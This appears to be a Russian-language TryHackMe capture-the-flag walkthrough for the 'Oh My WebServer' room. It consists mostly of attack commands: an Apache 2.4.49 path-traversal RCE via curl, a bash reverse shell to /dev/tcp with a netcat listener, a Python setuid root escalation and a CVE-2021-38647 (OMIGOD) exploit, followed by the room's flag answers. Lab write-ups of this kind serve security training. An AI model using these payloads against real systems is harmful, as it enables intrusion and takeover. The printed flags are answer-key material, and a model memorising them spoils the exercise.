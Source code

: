 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Oh My WebServer](https://tryhackme.com/r/room/ohmyweb) 

Всего 1 заданиe:
## Задание 1
Задействуйте машину, прикрепленную к этой задаче, и счастливого взлома!

### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap -sSCV <IP>
searchsploit Apache 2.4.49
https://www.exploit-db.com/exploits/50383
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; /etc/passwd" "http://<IP>/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
curl 'http://<IP>/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type:text/plain; echo; bash -i >& /dev/tcp/<IP>/4444 0>&1'
nc -lvnp 4444
ls -la
ifconfig
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'’
cat /root/user.txt
```
```commandline
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```
Что такое корневой флаг?
```commandline
curl http://<my_own_IP>/nmap -o /tmp/nmap
./nmap -sSCV -p- 172.17.0.1
# https://github.com/AlteredSecurity/CVE-2021-38647
python3 CVE-2021-38647.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root*'
```
```commandline
THM{7f147ef1f36da9ae29529890a1b6011f}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
